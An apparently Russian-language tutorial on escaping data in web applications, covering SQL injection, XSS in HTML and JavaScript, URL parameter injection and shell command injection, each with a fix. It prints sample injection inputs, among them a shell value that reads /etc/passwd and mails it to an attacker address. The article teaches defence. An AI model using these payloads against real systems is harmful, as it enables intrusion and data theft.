 Когда я только начинал программировать в web, правильно сделать escape данных было непростой задачей: 
никаких хороших библиотек не было или приходилось писать что-то свое, при этом на каждом шагу не забывая 
поставить нужный escape. Сегодня отличные библиотеки, такие как Ruby on Rails, позволяют "расслабиться" и 
забыть о том, что такое escaping (по крайней мере до какой-то степени). Не смотря на это, все еще необходимо понимать, 
что такое escaping, зачем он нужен, когда и какой.


Отсутствие правильного escaping (впрочем, как и избыточный и неуместный escaping) приводит к *ошибкам* и *уязвимостям* 
(проблемам безопасности) в web-приложениях. Обычно уязвимость состоит в том, что приложение получает данные из различных 
внешних источников (от пользователя, из других приложений), эти данные приложение вставляет строчку, которая 
впоследствие будет обработана третьей системой (базой данных, браузером, интерпретатором и т.п.) При этом при передаче 
особым образом подготовленных данных удается совершить действие, которое не должно было произойти.


SQL
---

Типичная уязвимость: `SQL Injection <http://en.wikipedia.org/wiki/SQL_Injection>`_. 

Пример кода (авторизация по логину и паролю):

.. code-block:: php

    <?php runQuery("SELECT id FROM users WHERE login='$login' AND password='$password'");

Если значения переменных ``$login`` и ``$password`` получены от пользователя (например, через форму авторизации), 
можно в поле ``password`` ввести значение вида: ``' OR '' = '``, тогда после подстановки получится такой запрос:


.. code-block:: sql

    SELECT id FROM users WHERE login='login' AND password='' OR '' = ''

Условие ``WHERE`` всегда истинно, для любой строчки БД. В зависимости от вида запроса, способа авторизации такое 
поведение приведет к возможности авторизации, не зная пароля.

Проблема состоит в том, что при прямой подстановке значения переменной ``$password`` мы смогли изменить смысл исходного запроса.

Что делать (в порядке от плохого к хорошему):

* использовать функцию, которая осуществляет escaping, причем специфичный для конкретной БД (так как синтаксис SQL-запросов 
  может отличаться от одной БД к другой (в конечном итоге не очень хороший способ, так как однажды забытая функция escape ведет к 
  потенциальной уязвимости); например, для PHP/MySQL: `mysql_real_escape_string <http://ru.php.net/mysql_real_escape_string>`_.
* использовать синтаксис SQL с параметрами (placeholderами), в этом случае значение не подставляется в строку SQL-запроса, а 
  передается отдельно как значение соответствующего типа; пример для PHP/PDO: 
  `PDOStatement->bindValue <http://ru2.php.net/manual/en/pdostatement.bindvalue.php>`_.
* использовать `ORM <http://ru.wikipedia.org/wiki/ORM>`_, которая спрячет процесс построения запросов, 
  например для Rails: ``User.find_by_login_and_password(login, password)``.

**Примечание**: один из моих любимых вопросов на собеседовании - "SQL injection и как его избежать". В 50% случаев я слышу про то, 
что надо фильтровать пользовательские данные. Это не может быть универсальным способом! Пользователь может совершенно 
разумно хотеть написать одинарную кавычку в том текстовом поле, значение которого будет передано вашему приложению. 
Валидация или фильтрация данных - дополнительная возможность, которая происходит на уровне модели вашего приложения, но 
escaping происходит на уровне, уже непосредственно взаимодействующем с БД.

HTML
----

Типичная уязвимость: `XSS <http://en.wikipedia.org/wiki/Cross-site_scripting>`_, `типичные exploitы <http://ha.ckers.org/xss.html>`_.

В разметке HTML есть некоторое количество символов, которые имеют особый смысл: ``&"'``. Проблема возникает, когда в текст 
(между элементами HTML) попадают данные, которые содержат мета-символы HTML, перечисленные выше. 

Пример (PHP):

.. code-block:: php

    <span class="author"><?= $user->nickname ?></span>

Если в качестве ``$user->nickname`` пользователь введет: 

.. code-block:: html

    <script>alert("hi!")</script>

То все посетители сайта, которые посещают страницу, содержащую вышеприведенный код, получат окошко c "hi!". 

Должно быть так (`htmlspecialchars <http://ru.php.net/htmlspecialchars>`_ осуществляет замены вида ``">"`` -> ``"&gt;"`` и т.п.):

.. code-block:: php

    <span class="author"><?= htmlspecialchars($user->nickname) ?></span>

Необходимо отметить, что решения из разряда "фильтрации", описанные в примечании к SQL-escape, не всегда работают 
по тем же самым причинам. Типичный поток данных для данной уязвимости - пользователь (например, ввод в форме) -> БД -> вывод на страницу 
в HTML. При этом HTML escaping должен происходить при выводе данных, а не при записи в БД, т.к. данные в БД 
могут использоваться и для вывода в другие форматы (например, PDF).

Второй разновидностью данной проблемы является динамическая генерация HTML в контексте страницы, например, с помощью jQuery:

.. code-block:: javascript
    
    $('#nickname').update('<span>' + data['nickname'] + '</span>');

Должно быть так:

.. code-block:: javascript

    $('#nickname').update($('<span>').text(data['nickname']));

Фукнция ``text`` в отличие от ``update`` изменяет только текстовые узлы DOM-дерева и не интерпретирует (добавляет "как есть") любую HTML-разметку.

Как избежать подобных проблем:


* Шаблонизатор на серверной стороне должен по умолчанию делать HTML escaping при подстановке данных в шаблон, 
  т.к. чаще всего нужно делать escape, а не наоборот. Не нужен escaping только при вставке готовых кусков HTML-кода (например, результата работы другого шаблона).
* При построении DOM-дерева в JavaScript не используйте куски HTML кода, лучше стройте DOM-дерево из отдельных 
  элементов (как показано выше). Можно воспользоваться JavaScript-шаблонизатором с теми же требованиями, что и для серверного решения.

JavaScript
----------

Типичная уязвимость: `XSS <http://en.wikipedia.org/wiki/Cross-site_scripting>`_.

Не менее часто в сегодняшних сложных web-приложениях необходимо передать данные с серверной части в JavaScript-код через HTML страницу. 
Для этого чаще всего генерируется в шаблоне такой JavaScript-код:


.. code-block:: php

    <script type="text/javascript"> 
      var user = '<?=$username?>';
    </script></pre>

Теперь представим, что будет, если я в качестве ``$username`` напишу ``'+alert(document.cookies) + '``. Нехорошо получается? Ответ 
простой - сегодня все языки программирования поддерживают возможность преобразования данных в `JSON <http://json.org/>`_. А это 
как раз тот вид escape, который нам нужен! Причем у нас появляется передавать в JavaScript сложные 
данные (массивы, объекты), а также свободно обрабатывать случаи null и т.п.:

.. code-block:: haml

    :javascript
      var user = #{@user.name.to_json};

(Кавычки вокруг строки уже указывать не нужно).

Как избежать: преобразуйте данные в JSON перед вставкой в JavaScript-код.
 
URL
---

`URL <http://ru.wikipedia.org/wiki/URL>`_ - это тоже далеко не такая простая вещь, как кажется на самом деле. В URL используется 
множество символов, которые имеют особый смысл: ``?&=/``. Чаще всего проблема возникает при построении URL динамически, а 
при этом в качестве части URL необходимо использовать переданные пользователем данные. Пусть, например, нам надо построить 
URL страницы поиска для ссылки с тега какого-то объекта:

.. code-block:: php
    
    <?php "http://example.com/search/?q=" . $tag->name

Если ограничений особенно жестких на имя тега нет, мы можем получить несколько другой URL, чем мы планировали. Например, добавить 
еще один параметр через ``&val=xxx`` в имени тэга. В результате, пользователь, кликнувший по ссылке на такой тэг в списке тэгов
может попасть совсем не на страницу тэга, а на другую страницу сайта (результат будет зависеть во многом от схемы формирования ссылок).

Как избежать: используйте ``urlencode``-подобные функции при формировании компонентов URL, или, еще лучше: используйте "сборщики ссылок", 
которые отдельно принимают схему протокола, имя хоста, URI, GET-параметры и т.п. 
Пример - `link_to <http://apidock.com/rails/ActionView/Helpers/UrlHelper/link_to>`_ в Rails.
  
Shell
-----

Типичная уязвимость: получение shell-доступа к удаленному серверу.

При выполнении команд в ответ на запрос с использованием параметров, переданных клиентом (это могут быть как строки, так и, 
например, имена файлов), можно использовать различные способы запуска команд. Одним из таких способов является команда 
``system`` или ее различные варианты:


.. code-block:: php

    <?php $image = $_GET['image'];

    $result = system("/usr/bin/process_image '$image'"); 


В данный код в качестве значения переменной ``$image`` можно передать, например, следующее: 


.. code-block:: python
    
    '; (cat /etc/passwd | mail cool@hacker.org); echo '

В чем здесь проблема?


1. Функция ``system`` и ей подобные запускают командный интерпретатор (например,  bash), возможности которого гораздо больше, чем требуется нам.
2. Мы не выполняем корректный escaping параметров, чтобы ``$image`` оказался в точности одним параметром командной строки. 


Как избежать:


1. Использовать функции, которые запускают внешний процесс, не прибегая к помощи shell: 
   они обычно принимают отдельно полный путь к исполняемому файлу и массив аргументов. Проблема отпадает сама собой.
2. Использовать функцию ``escapeshellarg`` и ей подобные, которая гарантирует, что внутри параметра все специальные символы будут экранированы:


.. code-block:: php

    <?php $image = $_GET['image'];

    $result = system("/usr/bin/process_image ".escapeshellarg($image)); 
